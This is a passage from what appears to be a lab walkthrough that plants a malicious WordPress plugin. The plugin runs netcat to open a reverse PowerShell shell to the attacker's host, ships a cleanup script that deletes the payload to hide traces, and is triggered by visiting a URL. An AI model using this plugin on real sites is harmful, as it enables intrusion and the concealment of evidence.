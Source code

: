 > Executes reverse PowerShell

```php
# wp_config.php

<?php
  system("nc342as.exe -e powershell.exe 10.10.XX.XXX 9002")
?>
```

### wp_cleanup.php

> Allows to remotely delete the contents of the plugin, leaving only the main plugin file with the dummy data.
> This way if you want to update the payload, call this file and then deactivate and remove Example plugin.

```php
# wp_cleanup.php

<?php

file_put_contents("pshield_plugin.php", base64_decode("PD9waHAgICAKLyoKICAgUGx1Z2luIE5hbWU6IEV4YW1wbGUKICAgUGx1Z2luIFVSSTogaHR0cHM6Ly9leGFtcGxlLmNvbQogICBkZXNjcmlwdGlvbjogCiAgIFZlcnNpb246IDEuMAogICBBdXRob3I6IE1lCiAgIEF1dGhvciBVUkk6IGh0dHBzOi8vZXhhbXBsZS5jb20KICAgTGljZW5zZTogTUlUCiAgICovCj8+Cg=="));

unlink("wp_config.php");
unlink("nc342as.exe");
unlink(__FILE__);

?>
```

### pshield_plugin.zip

> Plugin archive ready for upload

```
$ zip pshield_plugin.zip *
  adding: nc342as.exe (deflated 53%)
  adding: pshield_plugin.php (deflated 45%)
  adding: wp_cleanup.php (deflated 38%)
  adding: wp_config.php (deflated 6%)

```

[Back to top](#contents) ⤴

# Exploiting (low privilege shell access)

After uploading the plugin and activating it, each time I want to get the PS reverse shell I start `netcat` listener and navigate to the following URL:

`http://10.10.10.29/wordpress/wp-content/plugins/pshield_plugin/wp_config.php`
